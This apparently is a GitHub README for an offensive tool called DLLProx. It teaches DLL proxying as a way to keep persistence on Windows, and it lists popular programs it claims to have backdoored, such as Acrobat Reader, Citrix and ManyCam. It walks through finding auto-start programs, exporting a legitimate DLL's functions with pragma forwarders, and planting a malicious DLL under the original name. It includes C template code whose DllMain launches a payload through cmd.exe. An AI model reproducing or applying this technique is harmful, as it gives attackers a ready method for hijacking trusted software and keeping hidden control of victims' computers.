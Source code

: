 # DLLProx
DLL Proxying techniques, and more

## List of successfully backdoored programs (so far) :

                             5
        +-------------------------------------------+
        |       NAME         |         DLL          |
        |-------------------------------------------|
        | Lightshot.exe      | DXGIODScreenshot.dll |  (Lightshot)
        | AcroRd32.exe       | BIB.dll              |  (Acrobat Reader)
        | LMIGuardianSvc.exe | LMIGuardianDll.dll   |  (Hamachi service)
        | ManyCam.exe        | P7x32.dll            |  (ManyCam)
        | concentr.exe       | ctxmui.dll           |  (Citrix)
        +-------------------------------------------+


## DLL Proxying & Persistence concept :
The goal is to use programs that automatically run on startup.

There are two techniques, generally if the first one fails you will want to try the other one.

The two common steps for both techniques are :
1. Find the program that fits your needs for persistence
2. List DLLs used by this program (with Procmon)

### **Technique 1**

  Technique 1 is based on the idea that the DLL exists, and is loaded by the program. 

In Procmon, you can check this with the "*Result*" column being set to "*SUCCESS*".

3. Once you picked your working DLL, use a tool such as DLLExportViewer to export the legit DLL's functions 

(or use my script to automate this step and step 4)

4. Generate the pragma comment linkers for you to implement into your malicious DLL
It should look like :

    #pragma comment(linker,"/export:LegitDLLFunctionName=DLLFileName_orig.LegitDLLFunctionName,@ordinalNumber")

5. Create your DLL with the code that you want to execute, here's an example :

```C
#pragma once

// Add the generated comments here
// # pragma comment(linker,"/export:LegitDLLFunctionName=DLLFileName_orig.LegitDLLFunctionName,@ordinalNumber")
// .....
#include <stdio.h>
#include <string.h>
#include <process.h>
#include <winsock2.h>
#include <ws2tcpip.h>
#include <windows.h>
#include <string>
#include <atlstr.h>
#include <Windows.h>

DWORD WINAPI payload() {
	STARTUPINFOA info = { 0 };

	PROCESS_INFORMATION processInfo = { 0 };

	LPSTR arguments = (char*)" /c notepad"; // This is not necessary. It's just an argument example for you to use with your own commands

	if (CreateProcessA("C:\\Windows\\System32\\cmd.exe", arguments, NULL, NULL, TRUE, 0, NULL, NULL, &info, &processInfo)) {
		WaitForSingleObject(processInfo.hProcess, INFINITE);
		CloseHandle(processInfo.hProcess);
		CloseHandle(processInfo.hThread);
	}
	return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
	switch (fdwReason) {
	case DLL_PROCESS_ATTACH:
		payload();
		break;
	case DLL_THREAD_ATTACH:
		break;
	case DLL_THREAD_DETACH:
		break;
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```

6. Name your DLL with the original legitimate DLL name (without the \_orig), and place it in the same folder.
7. Start the program and see if it worked.



## Consequences

Now everytime the program is going to run, assuming you have chosen a correct DLL and that your own DLL is working, it is going to call your malicious DLL, and will continue to owrk since your DLL exports all the same functions that the legit DLL exports.

Since it is a program that is ran on startup, your DLL will be called on startup and persistence is achieved.

